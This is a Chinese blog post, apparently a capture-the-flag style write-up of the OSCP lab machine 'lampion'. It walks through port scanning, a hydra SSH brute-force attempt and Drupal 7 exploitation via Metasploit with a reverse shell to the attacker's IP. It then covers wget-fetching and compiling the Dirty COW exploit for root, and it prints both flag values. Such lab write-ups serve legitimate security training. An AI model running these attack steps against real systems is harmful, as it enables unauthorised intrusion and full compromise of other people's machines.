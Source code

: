 # 原创
：  从WEB到内网&&SSH爆破&&信息收集&&脏牛提权 ---- 打靶经验分享

# 从WEB到内网&amp;&amp;SSH爆破&amp;&amp;信息收集&amp;&amp;脏牛提权 ---- 打靶经验分享

## OSCP靶机-------lampion

今天来打一个OSCP的靶机，难度中等，花了我半天的时间，包含了端口探测，服务探测，ssh爆破，msf反弹shell，脏牛提权等等…靶场难度中等，需要收集两个flag，一个flag低权限shell就可以获取，第二个要提权后才可以获取。总而言之言而总之，重要的还是信息收集。

### 启动环境：

启动VPN：<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/30d89f6695774aad8be033b83e9e0956.png"/><br/> 攻击机IP为：192.168.45.243<br/> 启动目标靶机：<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/0638a13696f24048a93af3d9afb3f453.png"/><br/> 目标靶机IP为：192.168.230.48

### 信息收集

#### 1.端口

nmap扫描端口：<br/> `nmap --min-rate 10000 -p- 192.168.230.48`<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/4efe779735ef4c4599f64263b66ac613.png"/><br/> 目标靶机开放了22,80,1898端口。<br/> 端口服务探测：nmap -p22,80,1898 -sV 192.168.230.48<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/d48d19003b4545e8985525ddd12545bd.png"/><br/> 1898端口开启了apache服务。

#### 2.端口测试

**2.1** 22端口<br/> 22端口通过前面的扫描，是openssh 6.6.1p1 ubuntu版本，尝试从这里下手。msf中找一下可利用的脚本。<br/> ·`searchsploit OpenSSH 6.6.1p1`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/47620866672540499941758752acc326.png"/><br/> 待定。<br/> 尝试ssh连接一下目标靶机：<br/> ` ssh root@192.168.230.48 -v`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/1c274fe986574801829b270ab1f1439b.png"/><br/> 支持密钥和密码登录。就尝试一下弱口令登录。<br/> ·`ssh root@192.168.230.48 -p 22`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/af72828240974fc599367d2f3bce9b0f.png"/><br/> 试了好几个都是错误，走不通换思路。直接用hydra弱口令爆破。字典用msf的。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/0687cb6d9e6949c39c969007c613e9c7.png"/>

```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 -vV 192.168.230.48 ssh -s 22

```

等待…<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/a45ea38ca1fb49f196b121b3f48c7b36.png"/><br/> 扫完了整本目录，没有命中的弱口令，22端口无法继续。

**2.2** 80端口<br/> 访问http://192.168.230.48:80<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/6f3692e340a2490aad0b4b80c87112ff.png"/><br/> 页面没有什么功能，看不出什么名堂。<br/> HTML隐藏信息看一下：<br/> `curl http://192.168.230.48:80`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/500ddac32aeb43c781833fb90811d497.png"/><br/> 竟然是HTTP/0.9协议，太老了，curl都不支持。<br/> dirsearch扫一下：<br/> `dirsearch -u http://192.168.230.48:80`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/c31deaa75d59462890418d860d404325.png"/><br/> 还是这个HTTP/0.9协议太过于古老，dirsearch也不支持。<br/> f12，查看前端源码也都没有什么信息可以得到。<br/> 80端口放弃。

**2.3** 1898端口<br/> 访问http://192.168.230.48:1898<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/8d9f9ab3ce36498f9507033f0381a802.png"/><br/> 弱口令，SQL都登不进去。看一下cms。<br/> `whatweb http://192.168.230.48:1898`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/b01ce3137c5647959e8dea20d3dcc165.png"/><br/> cms是Drupal 7。<br/> 信息收集结束。

### 攻击阶段

通过信息收集，收集到了目标靶机的端口，22和80都无法继续渗透下去，只剩1898的CMS Drupal 7可以利用。直接msf里搜一下它的exp。<br/> `search Drupal 7`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/d3cd45e8e1774f369d8170d8703045ad.png"/><br/> 选1，因为比较新。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/4f2bbbf9c8fa4edd89ef16f11aa8681e.png"/><br/> 使用命令：<br/> `use 1` 选择exp1<br/> `show payloads` 列出payload<br/> `set payload 17` 选择tcp反弹shell的payload17<br/> `show options` 设置<br/> `set lhost 192.168.45.243` 设置lhost<br/> `set rhosts 192.168.230.48` 设置rhost<br/> ` set rport 1898` 设置端口1898<br/> `run` 执行<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/8b91718b943a4a83a6524c995adf41eb.png"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/bd1d214ccee14919bc8cf524227e1938.png"/><br/> 成功反弹shell

### 内网渗透

1.现在拿到的shell交互不太友好，用python实现交互<br/> `shell`<br/> `python -c "import pty;pty.spawn('/bin/bash')";`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/9c7e9e238f6341dba277bc0215a1b1d6.png"/><br/> 2.寻找并获取flag1<br/> `find / -name local.txt 2&gt;/dev/null`<br/> `cat /home/tiago/local.txt`

<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/b958a2e719814f88b98cca4e539a1156.png"/><br/> flag1：a6a93a5c4edf310650a2471db4a4f2aa

### 3.内网信息收集

既然已经拿到了shell，接下来就要进行提权，前提还是要进行信息收集。

3.1 检测Linux操作系统的发行版本<br/> `lsb_release -a`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/9aafd0bbcae94f738ba0bd2e8f40732e.png"/><br/> 可以看到发行版本为Ubuntu 14.04.5，14的版本可以使用overlayfs提权

3.2 检测Linux操作系统的内核版本<br/> `uname -a`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/77c6b46bfe5c4d97b769ff25a823502c.png"/><br/> 内核版本为4.4.0,有机会进行脏牛提权。

### 提权

信息收集得知内核可以进行脏牛提权，那就试一试。<br/> `searchsploit dirty`

<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/8c0caf91e1fc40d38da13c0eaca0fdfd.png"/><br/> 用cpp的稳定一点。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/a2cc7e5c368c42358caaf57e4cbc7aab.png"/><br/> 把exp拷贝出来<br/> `cp /usr/share/exploitdb/exploits/linux/local/40847.cpp exp`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/df2c862b83ed4f4ebb5cce6dded3f00e.png"/><br/> 查看使用信息<br/> `cat /usr/share/exploitdb/exploits/linux/local/40847.cpp`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/ab2a7af2c0c9484984ff9b7f00885f45.png"/><br/> 发现使用方法：./dcow -s和编译方式g++<br/> 开启http服务，让目标主机下载exp<br/> `sudo python3 -m http.server 90`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/07aaf705486144df854135b1eff12a59.png"/><br/> 返回目标shell，输入下列命令：<br/> `cd /tmp` 进入tmp目录<br/> `wget http://192.168.45.243:90/40847.cpp` 从该端口下载exp<br/> `chmod +x 40847.cpp` 给权限<br/> `g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil` g++编译为dcow<br/> `chmod +x dcow` 给权限<br/> `./dcow -s` 执行<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/840f1cc50ca5423eb48ee483e8ab2a54.png"/><br/> 成功拿下root权限。<br/> 获取flag2：<br/> `cat /root/proof.txt`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/ef3684e7feb84a53b6cc8321e9fe695b.png"/><br/> flag2: 27520bb337712f1d8e10be0b4f01cda9<br/> 靶机通关！<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/f864034ebed141b780b96999712f2f02.png"/>

